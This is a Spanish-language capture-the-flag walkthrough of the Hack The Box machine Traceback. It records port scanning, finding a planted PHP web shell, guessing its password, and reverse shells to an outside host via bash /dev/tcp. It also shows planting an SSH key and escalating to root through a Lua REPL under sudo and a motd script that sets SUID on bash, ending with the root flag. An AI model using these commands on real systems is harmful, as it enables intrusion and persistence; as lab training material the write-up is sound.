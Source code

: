 10.10.10.181
------------

1. Enumeracion,  (usando el script en bash), tenemos el puerto 22(ssh) y 80(http) abiertos.
Escaneando luego con nmap
```console
└─$ nmap -sCV -T5 -p22,80 10.10.10.181
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
└─$ whatweb http://10.10.10.181
http://10.10.10.181 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.181], Title[Help us]
```
La web (puerto 80) parece que ha sido hackeada por un tal "- Xh4H -" y dice que ha dejado una puerta trasera.

En el codigo fuente no he encontrado la gran cosa. Voy a por el fuzzing de rutas:
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.181/FUZZ
000045226:   200        44 L     151 W      1113 Ch     "http://10.10.10.181/"                               
000095510:   403        11 L     32 W       300 Ch      "server-status"  
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.181/FUZZ.php
000045226:   403        11 L     32 W       291 Ch      "http://10.10.10.181/.php"
```

Hay un .php pero es 403 forbidden. En el codigo fuente pone: 
```<!--Some of the best web shells that you might need ;)-->```
Poniendo eso en google sale esta [pagina](https://github.com/TheBinitGhimire/Web-Shells).
En el codigo fuente de esa pagina hay muchos nombres de shell, vamos a filtrarlos
```console
└─$ curl -s https://github.com/TheBinitGhimire/Web-Shells | grep "<td>" | grep -v "a href" > rutas
└─$ cat rutas | sed s/\<td\>//g |  awk '{print $1}' FS="<" | sponge rutas
└─$ wfuzz -c --hc=404 -t 200  -w ./rutas http://10.10.10.181/FUZZ
000000018:   200        58 L     100 W      1261 Ch     "smevk.php"
```
Viendo el codigo fuente de esa backdoor, es un script php que parece corto pero tiene una cadena en base64 
que al decodificarla sale otro script php de mas de 1000 lineas.

Esa backdoor pide usuario y contraseña. La peticion es tal que asi: 
```POST a smevk.php 'uname=test&pass=test&login=Login' con la cookie "PHPSESSID=7j3e4easretd87ei5haaicp0ok"```

Intente fuzzear la contraseña con el usaurio "Xh4H" con mi script FuzzDaPass pero no dio resultado, en cambio
admin si (el usuario por defecto que prueba).

```console
└─$ FuzzDaPass.py -t 'http://10.10.10.181/smevk.php' -f "uname:pass"  
Frase de error ej 'Incorrect username or password.'>   Wrong Password or UserName :(
Frase de error por intentos, ej 'Blacklist protection' >  test
   > Intento [33] 38.135.230.218	purple
   > Intento [34] 38.135.230.218	admin
[*] La contraseña para [admin] es [admin]
```
Tengo que avisar que  mi rockyuu (el diccionario que usa por defecto) esta ligeramente modificado. (ej la 
contraeña admin va mucho antes). Hay una linea para poner comandos a ejecutar en el sistema.

Pongo el comando de la reverse shell y con netcat a la escucha en el puerto 443 ```bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'```
Entro al sistema.

Enumeracion con mi [script](https://github.com/CUCUxii/Lin_info_xii.sh)
- Estamos con el usuario "webadmin"
- No hay capabilities ni SUIDS importantes
- Puedo ejecutar este script como root sin dar contraseña "/home/sysadmin/luvit"
- Nuestro usaurio ha ejecutado estos comandos:
```console
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
```
Nuestro usuario tiene un nota:
```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
Con Lua la manera de meter comandos al sistema es entablarse una bash:
```console
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/sh")
$ whoami
sysadmin
$ bash -c 'bash -i >& /dev/tcp/10.10.14.7/444 0>&1'
```
Entre al sistema con ```nc -nlvp 444```. Tambien puse mi llave en su authorized keys para entrar por ssh.
```
sysadmin@traceback:~/.ssh$ nano authorized_keys
sysadmin@traceback:~/.ssh$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2...YzPjys= cucuxii@kali-xii
```
Con este usaurio, corremos el script de enumeracion otra vez y encontramos que:

```console
root        430  0.0  0.0  31320  3252 ?        Ss   09:32   0:00 /usr/sbin/cron -f
root       1381  0.0  0.0  58792  3216 ?        S    09:56   0:00  \_ /usr/sbin/CRON -f
root       1384  0.0  0.0   4628   804 ?        Ss   09:56   0:00      \_ /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```
Es decir hacen una copia del archivo *update_motd.d* en /var/backups cada 30 segundos (y supongo que tambien ejecutarlo)

```console
sysadmin@traceback:/etc/cron.d$ cd /etc/update-motd.d/
sysadmin@traceback:/etc/update-motd.d$ ls
00-header  10-help-text  50-motd-news  80-esm  91-release-upgrade
```
En el 00-header pone ```echo "\nWelcome to Xh4H land \n"``` que es lo que nos salio al hacer shh.

Le añadi la linea ```chmod +s /bin/bash``` a 80-esm para hacer una bash SUID y ejecute esto antes de los 30
segundos.

```console
sysadmin@traceback:/etc/update-motd.d$ nano 80-esm 
sysadmin@traceback:/etc/update-motd.d$ bash -p     
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
c55e935719296d81297ab57e6dca6983
```

